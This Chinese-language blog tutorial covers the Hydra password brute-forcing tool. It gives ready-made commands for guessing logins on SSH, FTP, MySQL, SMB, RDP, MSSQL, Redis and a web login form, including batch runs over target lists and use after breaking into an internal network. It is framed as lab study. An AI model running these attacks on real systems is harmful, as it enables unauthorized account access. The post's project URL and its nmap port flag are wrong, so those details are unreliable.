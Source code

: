 ```yaml
---
layout: post
title: hydra基础使用
categories: 安全工具
description: hydra基础使用
keywords: hydra基础使用
---
```


hydra基础使用

### 1、hydra/九头蛇简介

hydra 是一个端口穷举服务器的工具。

网址：`https://github.com/facebookresearch/hydra` 或者 `https://hydra.cc/`

kali里面就有

它支持的协议很多

```txt
adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post}
http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s]
ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener
oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap
rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak
telnet[s] vmauthd vnc xmpp
```

使用：

```bash
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]`
```

使用参数说明

```txt
-R：继续从上一次进度接着破解
-S：大写，采用 SSL 链接
-s <PORT>：小写，可通过这个参数指定非默认端口
-l <LOGIN>：指定破解的用户，对特定用户破解
-L <FILE>：指定用户名字典
-p <PASS>：小写，指定密码破解，少用，一般是采用密码字典
-P <FILE>：大写，指定密码字典
-e <ns>：可选选项，n：空密码试探，s：使用指定用户和密码试探
-C <FILE>：使用冒号分割格式，例如“登录名:密码”来代替-L/-P 参数
-M <FILE>：指定目标列表文件一行一条
-o <FILE>：指定结果输出文件
-f：在使用-M 参数以后，找到第一对登录名或者密码的时候中止破解
-t <TASKS>：同时运行的线程数，默认为 16
-w <TIME>：设置最大超时的时间，单位秒，默认是 30s
-v / -V：显示详细过程
server：目标 ip
service：指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http[s]-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh2 smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp 等等
OPT可选项
```

### 2、使用

例子：

```bash
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

可以在渗透进入内网了之后，在内网里面访问其他服务或者服务器使用。

下面都是靶机测试的截图，仅供参考学习。

#### 2.1 穷举ssh服务

ssh服务：专门为远程登录会话和其他网络服务(例如:rsync,ansible)提供的安全性协议

```python
hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh -o ssh.txt -f

"""
-L 用户字典文件 
-P 密码字典文件
-t 线程数 
-vV 详细信息 
-e ns 使用空口令使用指定用户和密码试探 
192.168.1.104 你要穷举的 ip 
ssh 是服务
-o 保存文件
-f 如果找到马上中断扫描
"""
```

ssh服务的两种连接写法

1. ssh://192.168.1.104
2. 192.168.1.104 ssh

查看SSH服务靶机的端口是否打开

```bash
Nmap -P 22 192.168.3.12
```

端口开放，可以进行爆破

```bash
hydra -l root -P /home/kali/top100password.txt -e ns -vV -t 1 -f 192.168.3.12 ssh
```

![穷举SSH](/images/blog/img/hydra/ssh.png)

#### 2.2 穷举FTP服务

FTP服务：FTP是一种上传和下载用的软件。用户可以通过它把自己的PC机与运行FTP协议的服务器相连，访问服务器上的程序和信息。

```bash
hydra -l c5moon -P /home/kali/top100password.txt -e ns -vV 192.168.3.15 ftp
```

![穷举FTP](/images/blog/img/hydra/ftp.png)

#### 2.3 穷举MYSQL服务

MySQL：数据库

```bash
hydra -l root -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 mysql
```

![穷举MYSQL](/images/blog/img/hydra/mysql.png)

#### 2.4 穷举smb服务

smb服务：用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居由它实现。

```bash
hydra -l administrator -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 smb -o smb.txt
```

![穷举smb](/images/blog/img/hydra/smb.png)

还可以批量穷举

```bash
hydra -L user.txt -P /home/kali/top100password.txt -M ip.txt smb  -o smb.txt
```

![批量穷举smb](/images/blog/img/hydra/smb2.png)

#### 2.5 穷举rdp服务

rdp服务：远程桌面

```bash
hydra -L user.txt -P /home/kali/top100password.txt -M ip.txt rdp  -o rdp.txt
```

![批量穷举rdp](/images/blog/img/hydra/rdp.png)

#### 2.5 穷举HTTP服务

```bash
hydra -l admin -P top100password.txt -vV -f www.c1moon.com http-post-form "/admin/index.php:user=^USER^&ps=^PASS^&action=login:login-error"
```

![批量穷举HTTP](/images/blog/img/hydra/http.png)

#### 2.6 穷举mssql服务

```bash
hydra -l sa -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 mssql
```

![批量穷举mssql](/images/blog/img/hydra/mssql.png)

#### 2.6 穷举redis服务

```bash
hydra -P /home/kali/top100password.txt -e ns -vV  -f 192.168.3.11 redis
```

![批量穷举redis](/images/blog/img/hydra/redis.png)

### 3、xhydra 可视化

在kali里终端输入`xhydra`就可以打开可视化界面，进行可视化的操作。

![可视化](/images/blog/img/hydra/xhydra.png)
